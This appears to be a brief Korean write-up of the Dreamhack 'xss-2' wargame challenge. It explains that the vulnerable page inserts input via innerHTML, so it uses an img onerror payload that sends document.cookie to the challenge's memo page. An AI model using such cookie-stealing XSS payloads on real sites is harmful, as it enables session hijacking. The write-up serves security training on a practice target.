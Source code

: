 # xss-2 (268)

## 문제

https://dreamhack.io/wargame/challenges/268

## 풀이

xss-1 문제와 거의 유사하다.

https://github.com/GwangIl-Park/dreamhack-playground/tree/main/wargame/xss-1

차이가 있다면 vuln 경로에서 innerHTML로 말아서 주기 때문에, \<script>를 사용할 수가 없다.

```
@app.route("/vuln")
def vuln():
    return render_template("vuln.html")
```

따라서 다른 태그가 필요하다.

```
<img src="xx" onerror="location.href=/memo?memo="+document.cookie/>
```

결과는 1과 동일하니 생략